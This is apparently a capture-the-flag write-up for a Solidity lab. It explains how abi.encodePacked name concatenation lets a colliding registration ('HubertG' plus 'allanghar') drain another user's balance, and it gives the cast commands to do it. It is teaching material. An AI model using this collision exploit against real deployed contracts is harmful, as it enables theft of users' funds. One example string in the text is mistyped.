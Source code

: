 The Setup first will register itself as "**Hubert Gallanghar**" and deposit 20 Ether alongside that, what we need to do is to make the balance of "**Hubert Gallanghar**" become 0 to solve the lab

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Singularity.sol";

contract Setup{
    Singularity public singular;

    constructor() payable{
        singular = new Singularity();
        singular.register{value: 20 ether}("Hubert", "Gallanghar");
    }

    function isSolved() public view returns(bool){
        return singular.checkBalance("Hubert", "Gallanghar") == 0;
    }

}
```

Now let's take a look at the `Singularity.sol` to see what we can do and find the vulnerability.

```solidity
mapping(bytes=>uint256) public balanceOf;
mapping(string=>mapping(string=>address)) public Member;
```

we can see that it has 2 mapping for `balanceOf` that will track the balance based on the unique Id generated by `getIdentity` and `Member` that will track the address of the respective name (first name & last name). Next, let's see the functions

```solidity 
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encodePacked(_firstName, _lastName);
}

function register(string memory _firstName, string memory _lastName) public payable{
    require(Member[_firstName][_lastName] == address(0), "Already Registered");
    require(msg.value > 0);
    bytes memory code = getIdentity(_firstName, _lastName);
    balanceOf[code] += msg.value;
    Member[_firstName][_lastName] = msg.sender;
}

function withdraw(string memory _firstName, string memory _lastName, uint256 _amount) public{
    require(Member[_firstName][_lastName] == msg.sender, "You cannot withraw other people money!");
    bytes memory code = getIdentity(_firstName, _lastName);
    require(balanceOf[code] - _amount >= 0, "You don't have this kind of money!");
    balanceOf[code] -= _amount;
}   

function checkBalance(string memory _firstName, string memory _lastName) public view returns(uint256){
    bytes memory code = getIdentity(_firstName, _lastName);
    return balanceOf[code];
}
```

We can see that in `getIdentity()` the unique Id generator is actually using `abi.encodePacked()`, which is not recommended due to the direct concatenation, here is an example

```text
firstName = "Hubert"
lastName = "Gallanghar"

abi.encodePacked(firstName, lastName) -> "HuberGallanghar"
(hex form) 0x48756265727447616c6c616e67686172
```

the function will return just that, so let's say what if we register ourselves using the first name of "**HubertG**" and "**allanghar**"? Yep, that's correct, we will get the same concatenation of "**HubertGallanghar**", because the return value of the `getIdentity()` is also `0x48756265727447616c6c616e67686172`. Knowing this, we can just directly register using the first name and last name of "**HubertG**" and "**allanghar**" and just send 1 ether for the registration fee

```bash
// registering with HubertG allanghar
cast send -r $RPC_URL --private-key $PK $SINGULARITY_ADDR "register(string, string)" "HubertG" "allanghar" --value 1ether

// make sure that the balance is now 21 Ether
cast call -r $RPC_URL $SINGULARITY_ADDR "checkBalance(string, string)" "HubertG" "allanghar"

// make a withdrawal of 21 Ether, emptying Hubert Gallanghar balance
cast send $RPC_URL --private-key $PK $SINGULARITY_ADDR "withdraw(string, string,uint256)" "HubertG" "allanghar" 21000000000000000000
```

why can't we use "**Hubert**" "**Gallanghar**", since we have the same bytes? It's because the original name was owned by the Setup contract and it checks whether the name owner is us (msg.sender) or not upon withdrawal. 

By Running the command above, we should've solved the lab.